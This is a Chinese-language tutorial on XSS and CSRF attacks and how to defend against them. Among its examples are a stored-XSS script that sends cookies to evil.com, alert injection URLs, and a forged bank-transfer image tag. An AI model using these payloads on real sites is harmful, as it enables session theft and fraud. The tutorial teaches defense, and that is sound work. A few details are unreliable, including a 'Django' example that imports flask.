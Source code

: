 # **📌 1. XSS（跨站脚本攻击）**

## **1️⃣ XSS 攻击类型**

XSS 主要分为 **三种类型**：

### **① 存储型 XSS（Stored XSS）**

- 恶意 JavaScript 代码**存储在数据库或服务器**，当用户访问页面时，代码被执行。

- **攻击方式**：

    - 用户在论坛、评论区、个人简介等提交恶意脚本，服务器存储后，所有访问该页面的用户都会执行此代码。

    - **示例**：

        ```html
        <script>document.location="http://evil.com/steal?cookie="+document.cookie</script>
        ```

    - **影响**：

        - 窃取用户 Cookie，劫持会话。
        - 在页面上篡改内容，欺骗用户输入敏感信息。

------

### **② 反射型 XSS（Reflected XSS）**

- 恶意 JavaScript 代码**不会被存储**，而是通过 **URL 传递** 并执行。

- **攻击方式**：

    - 攻击者诱骗用户点击恶意链接，服务器返回的页面中包含该脚本。

    - **示例**：

        ```js
        
        https://example.com/search?q=<script>alert(1)</script>
        ```

    - **影响**：

        - 在用户浏览器上执行恶意代码，可能窃取 Cookie 或劫持用户会话。

------

### **③ DOM 型 XSS**

- **不依赖服务器**，而是**直接在前端 JavaScript 代码中执行**。

- **攻击方式**：

    - 通过 `innerHTML`、`eval()`、`document.write()` 等插入用户输入，导致执行恶意脚本。

    - **示例**：

        ```js
        
        let input = location.hash.substring(1);  // URL: https://example.com/#<script>alert(1)</script>
        document.body.innerHTML = input;  // 直接插入页面，导致 XSS
        ```

------

## **2️⃣ XSS 预防措施**

### **✅ 1. 过滤 & 转义用户输入**

- **前端**和**后端**都要**对输入进行过滤**，防止 HTML 标签、JS 代码注入：

    ```js
    
    function escapeHTML(str) {
        return str.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    }
    ```

------

### **✅ 2. 使用 Content Security Policy（CSP）**

- CSP 限制哪些资源能执行 JavaScript，防止 XSS。

- **示例：**

    ```js
    
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
    ```

    - 只允许加载 **同源脚本**，禁止外部恶意脚本。

------

### **✅ 3. HttpOnly Cookie**

- **禁止 JavaScript 访问 Cookie**，避免被 `document.cookie` 窃取：

    ```js
    
    Set-Cookie: session_id=xyz123; HttpOnly; Secure
    ```

------

# **📌 2. CSRF（跨站请求伪造）**

## **1️⃣ CSRF 攻击原理**

攻击者**伪造用户身份**，向服务器发送未授权请求，服务器误以为是用户操作，从而执行恶意行为。

### **✅ CSRF 攻击示例**

1. **场景：**

    - 用户登录银行网站 `https://bank.com`，并保持会话（Cookie 仍有效）。
    - 用户访问了恶意网站，页面中嵌入了一段代码：

    ```js
    
    <img src="https://bank.com/transfer?amount=1000&to=attacker" />
    ```

    - 浏览器会自动携带 **用户的 Cookie** 发送请求，服务器误认为是用户操作，导致**资金被转走**。

------

## **2️⃣ CSRF 预防措施**

### **✅ 1. CSRF Token 校验**

- **每次请求都附带一个随机 Token**，攻击者无法伪造：

    - **后端生成 Token**

        ```python
        
        # Django 示例
        from flask import session
        session['csrf_token'] = generate_random_token()
        ```

    - **前端提交时附带 Token**

        ```js
        
        <input type="hidden" name="csrf_token" value="abc123">
        ```

------

### **✅ 2. 设置 SameSite Cookie**

- **限制 Cookie 只在同源请求时发送**，避免被跨站请求利用：

    ```js
    
    Set-Cookie: session_id=xyz123; SameSite=Strict; Secure
    ```

    - **`Strict`**：完全禁止跨站携带 Cookie（最安全）。
    - **`Lax`**：允许部分 GET 请求（推荐）。
    - **`None`**：允许跨站（默认，不安全）。

------

### **✅ 3. 检查 Referer / Origin 头**

- **后端验证请求来源，拒绝跨站请求**：

    ```python
    
    referer = request.headers.get("Referer")
    if referer and not referer.startswith("https://yourdomain.com"):
        abort(403)
    ```

------

### **✅ 4. 使用 CORS 限制跨域请求**

- 只允许可信任的域访问 API：

    ```js
    
    Access-Control-Allow-Origin: https://trusted.com
    ```

------

# **📌 3. XSS vs CSRF 预防总结**

| **攻击类型**             | **防御方式**                                    |
| ------------------------ | ----------------------------------------------- |
| **XSS（跨站脚本攻击）**  | ✅ 过滤 & 转义输入、✅ CSP、✅ HttpOnly Cookie     |
| **CSRF（跨站请求伪造）** | ✅ CSRF Token、✅ SameSite Cookie、✅ Referer 验证 |